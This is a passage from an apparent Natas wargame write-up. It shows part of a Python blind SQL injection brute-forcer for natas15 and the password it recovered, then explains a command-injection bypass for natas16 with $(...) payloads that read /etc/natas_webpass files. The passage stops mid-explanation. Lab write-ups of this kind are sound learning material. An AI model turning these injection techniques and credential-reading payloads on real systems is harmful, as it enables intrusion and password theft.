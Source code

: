 ```py
        dicts_filtered +=char

print('filtered:{}'.format(dicts_filtered))

#start bruteforcing using filtered 
print('Bruteforcing.....')
for i in range(0,32):
    for char in dicts_filtered:
        reqData = {'username':'natas16'+SQLQuery.format(password,char)}
        res = requests.post(sqlURI,headers=header, data=reqData)
        #print(char)
        if 'exists' in res.text :
            password +=char
            print(password)
            break
```
- in our code, the first loop we done is to filter for characters that are not exist in the password.
- we ended up with these characters that are usable `acehijmnpqtwBEHINORW03569`
- then we loop thru those characters and guess the order until it forms a 32 characters strings that are valid.
```
WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```

## NATAS16
- look like to go back to command injection.
- and it seems to filter some characters
- the regex look like this 
```php
preg_match('/[;|&`\'"]/',$key)
```
- what it do is , it check of `;`,`|`,`&` and `''`.
- the part where we inject code is here
```php
passthru("grep -i \"$key\" dictionary.txt");
```
- previously we use this exploit to get over the regex
```
' /etc/natas_webpass/natas10 #
```
- but this time, our single quote get rejected, so we can't break the string.
- but, because the comman grep from the dictionary.txt, we might be able to add the password into the file
- then read the password from the dictionary.
- in bash we can run comman in string using "$(our command)"
- our input look like this without `""`
```bash
"pass $(echo password:$(cat /etc/natas_webpass/natas17) >> ./dictionary.txt)"
```
- we try this but no luck, maybe the file `dictionary.txt` is read only and we have no permission to alter it.
- maybe we can ask the page, just like we did in blind SQL attack we perform in natas16.
- this time it's a `blind command injection`.
- what can we do to ask, if the password contains a letter ?
- we can use `grep`.
- let's take a word, as example `password`
- we use the existing grep to find `password`
- then we add another grep inside it to find for letter we want to brute.
- if there is a letter let say `"x"` in the password file, 
- our added grep will return `"x"`.
- then the existing grep will look like this
```bash
grep -i "passwordx" dictionary.txt 
```